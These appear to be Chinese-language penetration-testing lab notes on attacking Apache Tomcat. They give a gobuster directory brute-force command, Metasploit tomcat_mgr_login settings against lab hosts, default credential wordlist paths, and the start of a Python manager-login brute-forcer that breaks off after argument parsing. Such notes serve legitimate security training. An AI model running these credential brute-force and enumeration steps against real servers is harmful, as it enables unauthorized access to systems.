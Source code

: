 ```xml

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>   
```
### 目錄爆破
```shell-session
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
## Tomcat攻擊手法
>[!warning ] 小節重點
>- 暴力破解 
>- 上傳 WAR File Upload
>- CVE-2020-1938
### 暴力破解
Apache Tomcat的管理解面可以可以利用暴力破解進入，可以利用msfconsole裡面的工具爆破，或是利用python script爆破。
- msfconsole
```
auxiliary/scanner/http/tomcat_mgr_login/
```
```shell-session
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```
```shell-session
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt
```
```shell-session
/usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt 
```
- python script : [連結](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce)
```
python mgr_brute.py -u users.txt -p pass.txt -U http://10.10.10.194:8080/ -P host-manager/ 
```
```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

```